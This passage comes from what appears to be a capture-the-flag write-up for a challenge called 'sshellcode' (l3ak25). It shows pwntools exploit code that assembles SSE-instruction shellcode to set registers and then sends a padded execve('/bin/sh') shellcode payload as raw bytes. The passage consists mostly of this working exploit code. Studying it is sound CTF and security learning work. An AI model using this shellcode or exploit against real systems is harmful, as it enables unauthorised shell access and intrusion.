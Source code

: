 ```py
    df = st - i
    if df != 0:
        code += f"psrlq xmm0, {df}\npaddq xmm1, xmm0\n"
    else:
        code += "paddq xmm1, xmm0\n"
    if i == -17:
        code += "movq rdx, xmm0\n"
    st = i

code += '''
movq rbx, xmm1
movq xmm0, r11
movq xmm1, xmm0
'''

st, arr = find_value(0x13370153)

for i in arr:
    df = st - i
    if df != 0:
        code += f"psrlq xmm0, {df}\npaddq xmm1, xmm0\n"
    st = i

code += '''
movq rax, xmm1
psrlq xmm0, 2
paddq xmm1, xmm0
psllq xmm0, 3
paddq xmm1, xmm0
movq rsp, xmm1
'''

for _ in range(17):
    code += "movq xmm1, r10\n"
for _ in range(4):
    code += "xorps xmm2, xmm2\n"

sc = asm(code)
sl(sc.hex().encode())

# execve("/bin/sh", 0, 0) - shellcode
new_sc = b"A" * 0x159 + b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
pause()
s(new_sc)

ia()
```
Full exploit can be found here: [exploit.py](/blog/scripts/l3ak25/sshellcode.py)

## Conclusion
